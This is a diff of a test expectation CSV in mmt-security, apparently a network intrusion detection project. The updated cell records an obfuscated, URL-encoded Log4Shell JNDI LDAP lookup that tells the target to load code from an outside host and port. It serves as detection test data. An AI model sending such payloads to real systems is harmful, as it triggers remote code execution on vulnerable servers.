

Before and after one commit to montimage-projects/mmt-security, a CSV file: check/expect/77.log4shel_ldap_uri_params_ev0_1request.csv, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in …; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/check/expect/77.log4shel_ldap_uri_params_ev0_1request.csv
+++ b/check/expect/77.log4shel_ldap_uri_params_ev0_1request.csv
-D1: 1795182340
+D1: 1795193861
-M1: ["http.user_agent"
+M1: ["tcp.p_payload"
-N1: python-requests/2.25.1]]}
+N1: GET /test?q=%24%7B%24%7B%3A%3A-j%7D%24%7B%3A%3A-n%7D%24%7B%3A%3A-d%7D%24%7B%3A%3A-i%7D%3A%24%7B%3A%3A-l%7D%24%7B%3A%3A-d%7D%24%7B%3A%3A-a%7D%24%7B%3A%3A-p%7D%3A%2F%2F34.91.73.37%3A1389%2FBasic%2FCommand%2FBase64%2FcGluZyAtYyAxMCAxLjEuMS4x%7D HTTP/1.1..Hos]]}
```
Also changed, not shown: check/expect/37.WannaCry.csv.
